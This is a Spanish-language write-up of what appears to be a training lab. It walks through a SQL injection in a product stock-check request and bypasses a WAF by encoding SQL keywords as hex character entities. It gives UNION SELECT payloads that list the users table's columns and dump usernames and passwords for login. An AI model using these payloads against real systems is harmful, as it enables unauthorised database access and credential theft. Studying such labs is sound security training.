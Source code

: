 ## Objetivo:

![[Pasted image 20240627000333.png]]

## Solución:

Ingresar a cualquier a ver detalle de un producto y luego le damos a Check Stock y enviamos esa peticion al Repeater

![[Pasted image 20240627000717.png]]

Hacemos una peticion normal y luego le metemos una query para ver la diferencia

![[Pasted image 20240627000848.png]]

Ahora suponiendo que la query interna esta construida de la siguiente manera

```
SELECT product FROM products WHERE productId = 1;
```

Intentaremos hacer una inyeccion de la siguiente manera

```
OR 1=1 -- -
```

Y vemos que nos devuelve que un ataque ha sido detectado y esto está pasando por un WAF que está verificando las peticiones

![[Pasted image 20240627001137.png]]

Para intentar bypassear esto meteremos la query en hexadecimal. De la siguiente manera podemos convertir esto a hexadecimal

![[Pasted image 20240627001425.png]]

Ahora solo agregaremos los demás caracteres...

```
&#x4f; = O
```

Ahora convertiremos todo a hexadecimal

![[Pasted image 20240627001814.png]]

Vemos que la respuesta cambio y al final nos devolvió la lista de todos los productos... Ya con esto sabemos que podemos Bypassear el WAF, ahora solo tocaría hacer un ataque basado en UNION para traer los demas datos

Ahora haremos otra inyeccion SIN NECESIDAD de convertir en hexadecimal todos los caracteres y meteremos una query apuntando directamente a la tabla

```
&#x55;NION &#x53;ELECT * &#x46;ROM users &#x2d;&#x2d;&#x20;&#x2d;
```

![[Pasted image 20240627002421.png]]

Vemos que la respuesta cambia, pero sin embargo no nos bloqueo el WAF...

Ahora lo que haremos es intentar hacer descubrimiento de las columnas de dichas tablas...

```
&#x55;NION &#x53;ELECT column_name &#x46;ROM information_schema.columns &#x57;HERE table_name &#x3d; &#x27;users&#x27; &#x2d;&#x2d;&#x20;&#x2d;
```

![[Pasted image 20240627003107.png]]

Y como vemos existe una columna llamada "username" y otra llamada "password" ya con eso podemos mostrarlas e incluso hacer una concadenacion... Ahora mira haré otra inyección

```
&#x55;NION &#x53;ELECT username||&#x27; &#x7e;&#x7e; &#x27;||password &#x46;ROM users &#x2d;&#x2d;&#x20;&#x2d;
```

![[Pasted image 20240627003732.png]]

Ahora solo toca iniciar sesión con las credenciales

![[Pasted image 20240627003829.png]]


